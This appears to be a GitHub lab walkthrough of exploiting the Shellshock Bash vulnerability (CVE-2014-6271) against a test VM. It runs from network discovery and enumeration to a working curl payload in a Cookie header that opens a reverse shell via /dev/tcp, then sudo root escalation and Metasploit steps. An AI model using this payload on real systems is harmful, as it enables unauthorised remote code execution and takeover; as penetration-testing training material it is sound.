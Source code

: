 # CVE-2014-6271-Shellshock-Vulnerability
[Shellshock](https://www.breachlock.com/resources/blog/shellshock-bash-remote-code-execution-vulnerability-explained/) is a security bug in the Bash shell (GNU Bash up to version 4.3) that causes Bash to execute unintentional bash commands from environment variables. Threat actors exploiting the vulnerability can issue commands remotely on the target host. While Bash is not inherently Internet-facing, many internal and external services such as web servers do use environment variables to communicate with the server’s operating system. 

GNU Bash (up-to) v4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment. It allows remote code execution using shell callouts to bash. Payload can be sent simply using curl in http headers. CGI-BIN is a directory in the apache web server which allows us to execute 
shellscripts.

The environment variables are not properly sanitized by Bash prior to execution, allowing an attacker to send commands to the server through HTTP requests and have the web server operating system execute them. The vulnerability was discovered by Stephane Chazelas and was given the identifier, [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271)

**Mitigation:** Use bash version above 4.3

---
**Step 1: Identify the target**
```
sudo netdiscover -r 10.0.2.0/24
```
![image0](images/0.png)
![image1](images/1.png)

**Our Target IP is 10.0.2.8**

---
**Step 2: Enumerate the target**
```
nmap -sV -sC 10.0.2.8
```
![image2](images/2.png)

We can see SSH is open, running OpenSSH 6.0 as well as port 80 running Apache httpd 2.2.21. We can
disregard the title header for now since we are pretending to not know this machine is susceptible to
Shellshock.

---

**Step 3: Enumerating the HTTP service**

![image3](images/3.png)
Navigating to the website, we can see we are greeted with a static page. There are no options or links to other pages which we can visit.

![image4](images/4.png)

By inspecting the page source, we can see there is a function called status() and it is calling /cgi-
bin/status. This is interesting as we have further evidence that there is a script inside the cgi bin directory.

---

**Step 4: Doing a directory search on the website using dirb**
```
dirb http://10.0.2.8
```
In the scan, we are looking for the cgi-bin directory in specific. We already know it exists, but for
demonstration purposes, we will still carry on with the search.

![image5](images/5.png)

**NOTE: If you see a cgi-bin directory but it does not show what is inside that directory, we can run a
separate command on that directory to look for scripts**
```
dirb http://10.0.2.8/cgi-bin -w /usr/share/wordlists/dirb/common.txt -X py
```
```
dirb http://10.0.2.8/cgi-bin -w /usr/share/wordlists/dirb/common.txt -X .sh
```
From the scan results, we can see there is a file present at http://10.0.2.8/cgi-bin/status

We can run a curl command on the file to see the contents of the file.
```
curl http://10.0.2.8/cgi-bin/status
```
![image6](images/6.png)

---

**Step 5: Exploitation**

First, we need to start a listener on our attacking machine.
```
nc -lvnp 4444
```
![image7](images/7.png)

Secondly, we will send our payload using a http header using curl
```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.0.2.15/4444 0>&1' http://10.0.2.8/cgi-bin/status
```
![image8](images/8.png)

After sending over the http header along with our payload. We can expect to see a reverse shell access.

![image9](images/9.png)

---

**Step 6: Privilege Escalation**

We use the sudo -l command to see which commands the current user ‘pentesterlab’ can run on the
system as sudo.
```
sudo -l
```
![image10](images/10.png)

Since, the user have permission to run all commands. We can just spawn a root shell on the system.
```
sudo /bin/bash
```
![image11](images/11.png)

---

**Another way to exploit the shellshock vulnerability: Using Metasploit**

We can use the multi/http/apache_mod_cgi_bash_env_exec Metasploit module to launch out exploit

![image12](images/12.png)

**Commands:**

- use multi/http/apache_mod_cgi_bash_env_exec
- set rhost 10.0.2.
- set targeturi http://10.0.2.8/cgi-bin/status
- run

![image13](images/13.png)

We can also use the [shocker.py](https://github.com/nccgroup/shocker) method to exploit the shellshock vulnerability.




    